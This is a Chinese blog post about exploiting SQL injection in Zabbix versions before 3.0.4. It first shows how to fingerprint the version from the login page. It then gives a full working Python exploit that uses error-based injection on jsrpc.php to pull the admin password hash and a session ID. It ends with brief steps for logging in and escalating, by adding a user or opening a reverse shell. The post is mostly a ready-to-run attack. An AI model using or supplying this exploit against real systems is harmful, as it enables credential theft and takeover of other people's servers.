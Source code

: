 ```yaml
---
title: "Zabbix SQL 注入"
date: 2018-04-04T00:00:00+08:00
draft: false
tags: ['zabbix','sqli']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


zabbix < 3.0.4 SQL Injection Exploit

<!--more-->

登录界面

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522485897.jpg)

右键源代码 在 jsLoader.php 后面的为 zabbix 版本号

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522485898.jpg)

## EXP

```
# -*- coding: utf-8 -*-

import urllib2
import sys, os
import re

def deteck_Sql():
    payload = "/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(url + payload, timeout=10).read()
    except Exception,msg:
        print msg
    else:
        key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
        if key_reg.findall(response):
            return True

def sql_Inject(sql):
    payload = url + "/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib2.quote(
        sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
        results = result_reg.findall(response)
        if results:
            return results[0]

if __name__ == '__main__':
    print 'Zabbix < 3.0.4 SQLi Exploit'
    print
    if len(sys.argv) != 2:
        print 'usage: ' + os.path.basename(sys.argv[0]) + ' url'
        sys.exit()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    if deteck_Sql():
        print 'password: %s' % sql_Inject(passwd_sql)
        print 'sessionid: %s' % sql_Inject(session_sql)
    else:
        print 'No SQL injection'
```

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522485899.jpg)

登录 用户名 zabbix 或者 admin

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522485902.jpg)

至于提权

root 权限 直接加用户

非 root 权限 反弹shell
